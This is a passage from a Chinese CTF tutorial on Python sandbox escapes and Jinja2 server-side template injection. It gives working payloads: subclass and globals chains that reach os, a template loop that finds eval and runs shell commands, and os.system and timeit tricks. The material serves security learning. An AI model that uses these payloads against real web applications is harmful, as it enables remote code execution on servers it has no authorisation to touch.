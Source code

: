 ```

### reload方法

CTF题中沙盒环境可能会阉割一些模块，其中内建函数中多半会被删除。如果reload还可以用则可以重载

```
del __builtins__.__dict__['__import__']
del __builtins__.__dict__['eval']
del __builtins__.__dict__['execfile']reload(__builtins__)
```

### __getattribute__方法

这个方法之前介绍过了，获取属性。

```
[].__class__.__base__.__subclasses__()[60].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__.values()[12]
# 等价于
[].__class__.__base__.__subclasses__()[60].__init__.func_globals['linecache'].__dict__.values()[12]
```

更多请参考：传送门1

p师傅也有总结SSTI Bypass

## 0x07 SSTI控制语句

之前我们测试一些可用payload都是直接在python解释器里测试。如果遇上做题的时候，沙盒溢出能够直接测试都还好，如果遇到SSTI，我们要知道一个python-web框架中哪些payload可用，那一个一个发请求手动测试就太慢，这里就需要用模板的控制语句来写代码操作。

```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}{% for b in c.__init__.__globals__.values() %}{% if b.__class__ == {}.__class__ %}{% if 'eval' in b.keys() %}{{ b['eval']('__import__("os").popen("id").read()') }}{% endif %}{% endif %}{% endfor %}
{% endif %}
{% endfor %}
```

根据前面提到的发掘步骤，可以自行更改代码直接对题目环境测试。

![](https://img-blog.csdnimg.cn/img_convert/9c93acad870dde1305b4f034eec3dc43.png)

请参考jinja2控制语句

## 0x08 番外操作

**不利用__globals__**

```
[].__class__.__base__.__subclasses__()[59]()._module.linecache.os.system('ls')
```

**timeit**

```
import timeit
timeit.timeit("__import__('os').system('dir')",number=1)
```

**platform**

```